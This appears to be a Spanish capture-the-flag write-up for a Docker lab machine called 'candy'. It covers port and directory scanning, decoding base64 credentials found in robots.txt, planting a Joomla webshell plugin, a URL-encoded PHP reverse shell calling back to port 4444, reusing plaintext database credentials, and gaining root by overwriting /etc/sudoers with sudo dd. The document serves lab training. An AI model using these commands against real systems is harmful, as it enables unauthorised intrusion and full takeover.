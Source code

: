 ```yaml
---
Maquina: candy
SO: Linux
Explotación: Análisis web (LFI) Y Fuerza Bruta
Escala_privs: Permisos sudo
Dificultad: Fácil
tags:
  - maquina
  - web_discovery
  - linux
  - escala_privs
  - ssh
  - RCE
---
```

## Reconocimiento

1. **Explorar los puerto abiertos del docker**: 

```bash 
nmap -p- --open --min-rate 5000 -sS -Pn 172.17.0.2
```

![[Pasted image 20241113084503.png]]

Tal y como se aprecio tan solo tenemos el puerto 80 activo, así que vamos a tener que realizar un descubrimiento web exhaustivo. Vamos a seguir el mismo procedimiento de siempre, el panel principal es el siguiente ->

![[Pasted image 20241113090859.png]]

1. Vamos a analizar el código fuente de la web en busca de comentarios.
	1. No parece haber nada de interés.
2. Vamos a intentar pasar un firb o un gobuster para listar los subdirectorios.
	1. Resulta que la web da todo códigos 200 pero sin información aparente con dirb. En cambio con gobuster y si filtramos por webs con código 200 si que tendremos cosas interesante

```bash
gobuster dir -u http://172.17.0.2 -w /home/alejandro/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -x php,py,js,txt -s 200 -b ""
```

![[Pasted image 20241113090736.png]]

Y fijaos que mensaje más curioso hay en robots.txt ->

![[Pasted image 20241113090755.png]]

Nos acaban de dar el siguiente usuario -> admin:c2FubHVpczEyMzQ1. Si vamos a probarlo en el panel de login de la página principal nos dará fallo, y si nos fijamos un poco más en la passwd...

admin:c2FubHVpczEyMzQ1 -> Base64 decode -> admin:sanluis12345

![[Pasted image 20241113093005.png]]

Estamos dentro, pero hay poca información como tal.

Pero también parece que en el robots.txt no quiere que vayamos al /administrator/...

![[Pasted image 20241113091509.png]]

Parece otro panel de login... Sospechoso... y si probramos las mismas credenciales...

![[Pasted image 20241113092948.png]]

Esto me gusta mucho más, vamos a probar a modificar el index de la página principal y añadir un reverse shell y ver si podemos intentar conectarlos a la máquina.

Para ello vamos a utilizar este repositorio de git que explica como subir un plugin malicioso -> https://github.com/p0dalirius/Joomla-webshell-plugin?tab=readme-ov-file

Y ahora podemos tener ejecución de comandos de la víctima.

![[Pasted image 20241113142832.png]]

Si le pasamos el siguiente comando por url podremos mandar una petición de conexión a nuestro ordenador ->

```bash
php%20-r%20%27%24sock%3Dfsockopen%28%22172.17.0.1%22%2C4444%29%3Bexec%28%22sh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
```

Y con eso tendremos acceso al host ->

![[Pasted image 20241113143005.png]]

Ahora toca el tratamiento de la tty y ver los permisos que tenemos ;)

Investigando un poco me he dispuesto a buscar por el sistema el nombre de luisillo y he encontrado lo siguiente ->

```bash
find / -user luisillo 2>/dev/null
```

![[Pasted image 20241113144912.png]]

Y parece que tenemos algo interesante ->

![[Pasted image 20241113144928.png]]

```bash
$db_user = 'luisillo';
$db_pass = 'luisillosuperpassword';
```

![[Pasted image 20241113145000.png]]

Parece que si que funciona ;)

![[Pasted image 20241113145126.png]]

Parece que tenemos permisos para escribir en cualquier archivo... hmmmmm...

```bash
LFILE=/etc/sudoers
echo "luisillo ALL=(ALL:ALL) ALL" | sudo dd of=$LFILE
```

Con esto nos podemos dar todos los permisos del mundo a luisillo jijiji.

![[Pasted image 20241113150006.png]]

Y otra máquina completada ;)